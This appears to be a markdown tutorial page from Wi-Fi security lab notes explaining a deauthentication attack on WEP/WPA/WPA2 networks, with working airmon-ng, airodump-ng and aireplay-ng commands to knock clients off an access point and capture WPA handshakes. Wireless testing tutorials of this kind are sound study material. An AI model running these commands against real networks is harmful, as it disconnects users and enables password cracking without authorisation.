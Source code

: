 # Deauthentication Attack (WEP/WPA/WPA2)

This attack sends disassocate packets to one or more clients which are currently associated with a particular access point. Disassociating clients can be done for a number of reasons:

* Recovering a hidden ESSID. This is an ESSID which is not being broadcast. Another term for this is “cloaked”.
* Capturing WPA/WPA2 handshakes by forcing clients to reauthenticate
* Generate ARP requests (Windows clients sometimes flush their ARP cache when disconnected)

Of course, this attack is totally useless if there are no associated wireless client or on fake authentications.

## Commands

* Run [setup](../../setup.md) first
* Two terminals are needed
* At least one client must be associated with the AP
* No need to fakeauth, the first deauth will set AUTH to OPN

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $ADAPTER $CHANNEL

# Start monitoring to collect data
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE

# [Terminal Two]
# Run the deauthentication attack
sudo aireplay-ng --deauth 0 -a $BSSID -c $CLIENT $INTERFACE
```
*Note: Run ping on the client, pinging the AP, to see ping freeze while running the deauth attack.*

## References

* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [Deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication)


